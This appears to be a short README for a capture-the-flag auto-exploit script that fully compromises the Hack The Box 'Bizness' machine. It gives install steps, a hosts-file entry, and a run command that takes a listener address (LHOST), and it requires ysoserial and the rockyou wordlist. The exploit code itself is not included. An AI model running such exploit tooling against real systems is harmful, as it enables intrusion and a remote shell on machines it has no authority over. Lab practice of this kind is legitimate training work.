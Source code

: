 ![image](https://github.com/MAWK0235/HTB-B1ZN3SS-FULL-PWN/assets/90433993/713dc37a-eda7-4bd3-bac6-226b3cfa896a)


$ pip install -r requirements.txt

make sure to add bizznes.htb into ur /etc/hosts

then run the below command
$ Python3 fullpwnBizness_By_MAWK.py https://bizness.htb/ <LHOST>  



make sure rockyou.txt and ysoserial are all in your executing directory
